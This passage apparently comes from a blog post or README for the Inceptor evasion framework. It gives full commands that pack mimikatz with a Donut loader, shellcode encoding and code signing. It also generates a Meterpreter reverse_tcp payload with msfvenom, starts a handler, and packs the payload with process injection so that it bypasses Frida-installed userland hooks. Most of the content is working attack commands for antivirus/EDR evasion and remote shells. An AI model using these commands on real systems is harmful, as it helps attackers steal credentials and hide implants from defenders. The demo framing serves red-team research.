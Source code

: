 ```
# We have to specify Donut as the loader otherwise Pe2Shellcode will be used as default
python inceptor.py dotnet -t donut mimikatz.exe -o kiwi.exe --sgn --sign --delay 120 
```

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1fCeWCUSuB22qbMpKmCB6GaeKMBnA1kOR/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## DEMO 2: Userland Hooking Bypass (Executing Meterpeter)

To run this simple demo, we will make use of the popular tool `frida-trace`. This demo will serve as a PoC
to show what's userland hooking is about, and how we can effectively bypass it via manual mapping and Syscalls.

NW: To run the demo as below, it's necessary to download the files `demo.bat` and `demo.ps1` from Inceptor 
repository. Frida will install a hook on `NtCreateThreadEx`, and Inceptor will try to bypass it using raw syscalls.

### Demo 2.1: we get caught!

```
# Console 1: Start Metasploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f raw -o msf.raw
handler -H eth0 -P 4444 -p windows/x64/meterpreter/reverse_tcp

# Console 2: Pack the shellcode
# --sgn: encode the shellcode
# --sign: sign the loader
# -P: uses process injection
# --delay 15: Wait for 15 seconds to allow frida to install the hooks!
python inceptor.py dotnet msf.raw -o MySisterFell.exe --sgn --sign -P --delay 15

# Console 3: Start the demo!
demo.bat MySisterFell.exe
```

The result should be similar to the following, showing that Frida could intercept the call to 
NtCreateThreadEx performed by the loader:

![We Got Caught!](imgs/blog/003AVEvasion/We_Got_Caught.png)
